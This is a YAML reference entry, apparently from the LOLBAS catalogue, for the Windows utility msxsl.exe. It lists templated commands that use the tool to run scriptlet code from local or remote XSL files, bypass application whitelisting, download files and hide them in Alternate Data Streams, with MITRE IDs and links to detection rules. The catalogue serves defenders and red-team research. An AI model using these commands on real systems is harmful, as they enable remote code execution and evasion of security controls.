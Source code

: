 ```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: msxsl.exe {PATH:.xml} {PATH:.xsl}
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
  - Command: msxsl.exe {PATH:.xml} {PATH:.xsl}
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
  - Command: msxsl.exe {REMOTEURL:.xml} {REMOTEURL:.xsl}
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: msxsl.exe {REMOTEURL:.xml} {REMOTEURL:.xml}
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: msxsl.exe {REMOTEURL:.xml} {REMOTEURL:.xsl} -o {PATH}
    Description: Using remote XML and XSL files, save the transformed XML file to disk.
    Usecase: Download a file from the internet and save it to disk.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
  - Command: msxsl.exe {REMOTEURL:.xml} {REMOTEURL:.xsl} -o {PATH}:ads-name
    Description: Using remote XML and XSL files, save the transformed XML file to an Alternate Data Stream (ADS).
    Usecase: Download a file from the internet and save it to an NTFS Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564
    OperatingSystem: Windows
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wmic_xsl_script_processing.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_msxsl_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_msxsl_network.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  - Link: https://github.com/RonnieSalomonsen/Use-msxsl-to-download-file
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Ronnie Salomonsen
    Handle: '@r0ns3n'
---
```

